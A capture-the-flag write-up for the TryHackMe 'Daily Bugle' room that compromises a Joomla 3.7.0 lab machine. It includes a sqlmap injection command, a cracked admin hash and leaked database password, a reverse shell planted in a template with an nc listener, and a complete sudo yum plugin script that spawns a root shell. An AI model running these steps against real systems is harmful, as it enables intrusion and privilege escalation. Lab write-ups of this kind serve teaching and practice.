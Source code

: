 # DailyBugle

[Link to the room](https://tryhackme.com/room/dailybugle)

## Let's start

The first question is about who robbed the bank, the answer is in the first article of the webpage: `spiderman` lul.

Next the the Joomla version, i just checked `/administrator/manifests/files/joomla.xml` to get that the version being used in `3.7.0`. Looking it in `searchsploit` looks like we can work with that:
```
┌──(kali㉿kali)-[~]
└─$ searchsploit joomla 3.7.0          
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

According with the exploit information is a blind sql injection. Lets use `sqlmap` then as it is described:

```
sqlmap -u "http://<MACHINE_IP>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
After a while i was tired of waiting and used this https://github.com/stefanlucas/Exploit-Joomla and got the admin credentials:
```
[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', ''] 
```

To check the hash type i used `hashid`:
```
┌──(kali㉿kali)-[~]
└─$ hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```
I could have used `hashcat` with the `-m 3200` parameter but i ended up using `john --wordlist=/home/kali/rockyou.txt hashes.txt` and after a while i got the password: `spiderman123` cool.

## Getting access

Now i can login to the admin page but what i really want is a reverse shell. If i go to templates and click in one of the available one to edit the `index.php` file (Url of the file i edited: http://<MACHINE_IP>/administrator/index.php?option=com_templates&view=template&id=503&file=aG9tZQ==) with a reverse shell. Now setting up `netcat`: `nc -lnvp 8080` and visiting http://<MACHINE_IP>/templates/beez3/ gave me a shell nice.

## Privesc to user

Now we need to get privs, i ran `linpeas` and some maunal enumeration and got some interesting things:
```
[+] Checking sudo tokens
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#reusing-sudo-tokens
/proc/sys/kernel/yama/ptrace_scope is enabled (0)

[+] Users with console
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
root:x:0:0:root:/root:/bin/bash

[+] Files with capabilities (limited to 50):
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep

[+] Unexpected in root
/.autorelabel

[+] Mails (limit 50)
9244504    0 -rw-rw----   1 jjameson mail            0 Dec 14  2019 /var/mail/jjameson
9244504    0 -rw-rw----   1 jjameson mail            0 Dec 14  2019 /var/spool/mail/jjameson

bash-4.2$ hostnamectl
   Static hostname: dailybugle
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 4fc91dda78404e5d84ba62e3cbe3a722
           Boot ID: e823ad0ff3564c759435c805bf34f7b2
    Virtualization: xen
  Operating System: CentOS Linux 7 (Core)
       CPE OS Name: cpe:/o:centos:centos:7
            Kernel: Linux 3.10.0-1062.el7.x86_64
      Architecture: x86-64

```

But what was really helpful was the `/var/www/html/configuration.php` file and this database related variables:
```
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
public $dbprefix = 'fb9j5_';
public $live_site = '';
public $secret = 'UAMBRWzHO3oFPmVC';
```

I tried that password with the `jjameson` user and it worked yey. So now we have the user credentials: `jjameson:nv5uz9r3ZEDzVjNu` and we can get the flag:
```
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt 
**********************
```

## Privesc to root

Well the first thing i tried was `sudo -l` and got something funny:

```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
So i can use `yum` as `sudo`. According with https://gtfobins.github.io/gtfobins/yum/ that is exploitable so i tried the custom plugin method:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
After executing that i got a root shell and was able to get the flag:
```
sh-4.2# cat /root/root.txt 
**********************
```
